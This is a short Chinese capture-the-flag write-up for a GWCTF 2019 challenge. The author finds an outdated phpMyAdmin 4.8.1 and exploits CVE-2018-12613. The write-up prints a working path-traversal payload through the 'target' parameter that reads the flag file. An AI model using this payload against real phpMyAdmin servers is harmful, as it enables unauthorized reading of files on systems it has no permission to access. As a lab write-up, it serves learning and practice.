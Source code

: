 # GWCTF 2019

## 我有一个数据库

> *2021/07/23*

### 题目

进去是一大堆乱码

![gwctf20191](img/gwctf2019/gwctf20191.png)

这种题先用`ctf-wsan`等后台扫描工具扫下后台，发现`phpinfo.php`以及`phpmyadmin`

![gwctf20192](img/gwctf2019/gwctf20192.png)

发现`phpmyadmin`是`4.8.1`的，存在**CVE-2018-12613**，直接利用

### payload

```
/phpmyadmin/?target=db_datadict.php%253f/../../../../../../../../flag
```

